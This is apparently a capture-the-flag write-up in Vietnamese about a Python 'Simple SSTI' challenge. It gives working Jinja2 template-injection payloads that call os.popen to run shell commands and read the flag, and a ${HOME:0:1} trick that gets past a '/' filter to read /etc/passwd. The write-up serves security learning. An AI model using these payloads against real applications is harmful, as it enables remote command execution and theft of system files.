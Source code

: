 # Simple SSTI

![alt text](image.png)

Như tiêu đề thì bài này liên quan đến ssti, tuy nhiên phải thử thì mới biết được nó dùng thư viện nào.

![alt text](image-1.png)

Nhìn như này thì khả năng cao được viết bằng python, vì vậy mình tiến hành đi test các payload

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![alt text](image-2.png)

Và giờ mình chỉ cần đọc flag là được

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

![alt text](image-3.png)

Tuy nhiên lại không đọc được, sau khi mình thử mấy lần thì thấy khả năng cao là '/' không được chấp nhận, nên mình tìm cách bypass

```
cat ${HOME:0:1}etc${HOME:0:1}passwd
```

Đoạn này sẽ giúp chúng ta bypass được dấu /, liên quan tới command injection

Chall này khá hay kết hợp cả ssti và cmli bypass

![alt text](image-4.png)

Source reference:

https://viblo.asia/p/server-side-template-injection-vulnerabilities-ssti-cac-lo-hong-ssti-phan-2-qPoL775jLvk